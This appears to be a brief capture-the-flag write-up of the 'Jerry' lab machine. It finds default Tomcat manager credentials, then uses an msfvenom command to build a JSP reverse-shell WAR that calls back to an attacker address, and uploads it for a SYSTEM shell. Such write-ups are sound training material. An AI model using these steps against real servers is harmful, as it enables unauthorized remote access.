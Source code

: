 # Jerry

> Nashia Holloway | May 24th, 2020

**10.10.10.95**

## Enumeration

Apache Tomcat is running on port 8080, version 7.0.88. Attempting to login to the manager app, we get an error page upon failure. From this page, we get creds that allow us to log in.

```
tomcat:s3cret
```

![](tomcat.png)

Once logged in, we can upload a WAR (Web Application Resource or Web application ARchive) file. 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.46 LPORT=1234 -f war > shell.war
```

Upload this through the website and click the link to get the reverse shell. The shell is running as system, so we can get the user and root flags.
